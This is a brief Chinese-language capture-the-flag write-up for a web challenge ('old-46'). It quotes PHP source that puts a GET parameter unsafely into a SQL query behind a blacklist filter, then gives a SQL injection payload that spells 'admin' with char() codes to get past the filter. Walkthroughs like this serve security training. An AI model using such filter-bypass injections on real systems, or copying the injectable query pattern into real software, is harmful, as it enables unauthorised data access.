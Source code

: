 # old-46_300

* 這一題一進去就可以看到斗大的標題 sql injection 
* 直接看一下 source code 
    ```php=
    if($_GET['lv']){
        $db = dbconnect();
        $_GET['lv'] = addslashes($_GET['lv']);
        $_GET['lv'] = str_replace(" ","",$_GET['lv']);
        $_GET['lv'] = str_replace("/","",$_GET['lv']);
        $_GET['lv'] = str_replace("*","",$_GET['lv']);
        $_GET['lv'] = str_replace("%","",$_GET['lv']);
        if(preg_match("/select|0x|limit|cash/i",$_GET['lv'])) exit();
        $result = mysqli_fetch_array(mysqli_query($db,"select id,cash from chall46 where lv=$_GET[lv]"));
        if($result){
          echo("{$result['id']} information<br><br>money : {$result['cash']}");
          if($result['id'] == "admin") solve(46);
        }
      }
    ```
* 可以看到過濾了一些東西。我們的目的是把 id 變成 admin
* 所以可以用 `or id = 'admin'` 的方式
* 不過當然會被過濾
* 所以在眾多不可能中，想到了這一個 payload `(0)||id=char(97,100,109,105,110)`
* 送出之後就過拉
